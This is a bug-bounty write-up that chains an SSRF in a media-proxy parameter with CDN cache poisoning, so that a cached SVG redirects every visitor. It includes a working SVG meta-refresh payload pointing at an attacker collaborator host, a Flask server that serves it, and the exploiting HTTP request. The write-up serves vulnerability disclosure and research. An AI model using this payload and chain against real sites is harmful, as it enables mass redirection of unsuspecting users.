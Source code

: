 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug Flaw

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---

## 1. Server-Side Request Forgery (SSRF) Leading to Cache Poisoning

A Server-Side Request Forgery (SSRF) vulnerability was identified in the `url` parameter of the [Proxy Controller](https://inappwebview.dev/docs/webview/proxy-controller/). The root cause is the application’s lack of effective authentication and authorization controls, which allows any user to invoke this functionality.

An attacker can exploit this flaw by supplying an arbitrary domain (attacker-controlled domain), causing the server to interact with external services. However, this vulnerability could not be leveraged to access internal server resources (such as `localhost`) because the application implements a filtering mechanism (`filter`).

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/0.jpg)

Because calling internal server resources (localhost) was not possible, `Bugcrowd` downgraded the severity to `P5 (Informational)`, categorizing it as informational rather than a high-risk security issue.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---

## 2. Cache Poisoning Vulnerability

The cache poisoning issue was discovered by analyzing server responses. Headers such as `X-Cache: Hit from CloudFront` and `Age: 5`, together with `Status 200 OK`, indicate that the server uses a CDN (Content Delivery Network) and that content is being cached.

Initially, when I attempted to change the server’s `Content-Type` header to `text/html`, the server returned `Status 400 Bad Request`, as it did not accept that content type.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

However, when switching to `Content-Type: image/svg+xml`, the server responded with `Status 200 OK`. This demonstrates that the server accepts and successfully processes this content type, which opens the possibility for exploitation.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

As a result, I successfully performed cache poisoning.

After deeper analysis, I concluded this is not a typical `Cache Poisoning` vulnerability but rather a `Logic Bug Flaw`.

Specifically, the server is programmed to allow requests to a given endpoint up to a maximum of three times. After these three requests, the cache becomes permanently stored. When subsequent users access this endpoint, the server always serves the previously cached malicious content instead of processing the new request. This is a weakness in the application logic rather than a simple configuration error.

Note: I used the tool [requestrepo.com](https://requestrepo.com/) to edit headers during testing.
![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---

## 3. Impact & Attack Scenario

### Impact

Although the cache poisoning vulnerability allows an attacker to inject malicious content into the cache, direct exploitation to achieve Stored XSS was mitigated by the system’s `CSP (Content Security Policy)`. Therefore, I shifted the investigation to a different, feasible attack scenario.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/8.png)

After analysis, I found that the ability to inject HTML can be abused to perform an Open Redirect by leveraging a `meta` tag.

### Attack Scenario

To demonstrate this scenario, I set up an attacker-controlled server to log incoming requests.

I created a file `poc.xml` on the attacker server with the following content:

`poc.xml`

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

This file is an `SVG (an XML format)` containing a `<foreignObject>` element that allows embedding HTML. Because of the `namespace http://www.w3.org/1999/xhtml`, the `<meta http-equiv="refresh">` tag is processed by the user’s browser and causes an automatic redirect to an attacker-specified URL.

### Exploitation steps:

1. I set up a malicious server using Flask to serve the `poc.xml` file with the `Content-Type: image/svg+xml` header.

```python
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```

2. Using Burp Suite Repeater, I exploited the SSRF by supplying the address of my malicious server (`http://{ip}:{port}/poc.xml`) as the `u` parameter.

```http
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2
Host: VulnWeb-demo.com
Cookie: None
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

3. When the vulnerable server (`VulnWeb-demo.com`) made the request, it fetched the entire content of my `poc.xml` and stored it in cache.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/6.jpg)

4. As a result, the server returned the malicious content served from my server.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 4. Flow diagram

### Notes about the vulnerability

This vulnerability can lead to Open Redirect attacks; it may sound low-impact, but the issue is that the payload can become permanently stored in cache. Consequently, every user who accesses that endpoint will be redirected, resulting in a large-scale attack.

![alt text](https://mermaid.ink/img/pako\:eNp9km9vmzAQxr-KdVPe0SzkH5QXkxKyptpSaWqidBr0hQMXsGpsZsyUNOK7z5i2o9M0v7rz73nuTj5fIJEpQgCDwYUJpgNyiQUhMegcC4whMGGKR1pzHYPTQ3uqGD1wrFqN9bToKIXesucXozsvTy-uV_iALMt1hw-Spz2s8aRDyaXq6IeRPT0BZwL_K8A0ww09IF_S5ClTshamfmCUR3tiaIVNLJpmMIhFpmiZk819e7mI9izZseKRXF19Il-ie_xZY6W7dBmFXNbpjTLzP7bqz9FCa9MCVSf4Gt1RzhIm64q8c4atetmF0RbVL1RkX3OBih4YZ_psy4Vdlz_hKvqm5OlMblAnOVlRTa1uZeFtr1lX0sJbC9c9GJpxUWiy3a8_fr_bWNX677F270avSikqtMqdxQtwIFMshUCrGh0oUBW0TeEf34Sqp_aJG-MpqfghZfFqM6vIcgiOlFcmq8uUalwxajZQvN0qFCmq0CxNQzB1fVsEggucIPDd4dz3pvPpyJt57rU7c-AMwWQ8Hk7nnjsZ-7OJe-15jQPPtuto6Huz5jcMZeBn)

## 5. References:

[https://www.w3.org/TR/SVG11/](https://www.w3.org/TR/SVG11/)

[https://www.w3.org/TR/xhtml1/](https://www.w3.org/TR/xhtml1/)

[https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting\_Started#serving\_svg](https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started#serving_svg)

[https://portswigger.net/web-security/web-cache-poisoning](https://portswigger.net/web-security/web-cache-poisoning)

[https://owasp.org/www-community/attacks/Server\_Side\_Request\_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)

## 6. Proof-of-Concept (POC) - Video

![](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/video.gif)

## 7. Conclusion

This case demonstrates that a vulnerability initially classified as low-severity (P5) can become more dangerous when combined with an application logic flaw. It underscores the importance of not only identifying vulnerabilities but also thoroughly analyzing their operational context to accurately assess the true risk.

